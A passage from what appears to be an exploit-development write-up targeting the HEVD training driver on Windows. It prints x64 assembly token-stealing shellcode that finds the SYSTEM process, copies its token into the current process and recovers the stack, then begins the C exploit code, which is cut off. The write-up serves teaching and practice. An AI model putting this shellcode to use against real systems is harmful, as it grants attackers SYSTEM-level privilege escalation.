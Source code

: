 ```asm
		mov rcx, [r8+0440h]     ; get UniqueProcessId (PID)
		cmp rcx, 04h            ; compare PID to SYSTEM PID 
		jne loop_start          ; loop until SYSTEM PID is found

	apply_token:
		mov rcx, [r8+04b8h]     ; SYSTEM token is @ offset _EPROCESS + 0x4b8
		and cl, 0f0h            ; clear out _EX_FAST_REF RefCnt
		mov [rax+04b8h], rcx    ; copy SYSTEM token to current process

	recover_stack:
		mov rax, 0c0000001h    ; expected return value from hevd function
		add rsp, 010h          ; reallign stack to return value
		ret                    ; ret back to driver code
Shellcode ENDP

END
```

The `stop_user_threads` section takes the value in `r11` which just happens to point at the address of the `raceWon` variable I placed on the stack, move it into `rax` and set the value to `0x1` or `TRUE`.

The `recover_stack` section essentially realligns the value in `rsp` to the next return address on the stack that I didn't overwrite with the buffer overflow, this is `+0x10` bytes from the current `rsp` value. I set a return value of `0xc0000001` or `NT_STATUS_UNSUCCESSFUL` which has no bearing on the exploit, but I should set a return value for the driver.

## The Exploit

Here is the final exploit in action:

<img width="805" alt="Screenshot 2025-02-12 at 20 06 05" src="https://github.com/user-attachments/assets/bb752747-6be3-4213-95e9-0a15bb3d1521" style="border: 1px solid black;" />

Much quicker, and much more reliable!

## The Code

Here is the final exploit code:

```c
#include <stdio.h>
#include <Windows.h>
#include <winternl.h>
#include <psapi.h>
#include <cstdint>
#include <time.h>

extern "C" void Shellcode();

struct UserData {
    LPVOID pBuffer;
    size_t sizeOfData;
};

// global variables
UserData userData;
char* userBuffer;
HANDLE hDriver;

// used to stop the while loop
BOOL raceWon = FALSE;

void PrintTime(BOOL start)
{
```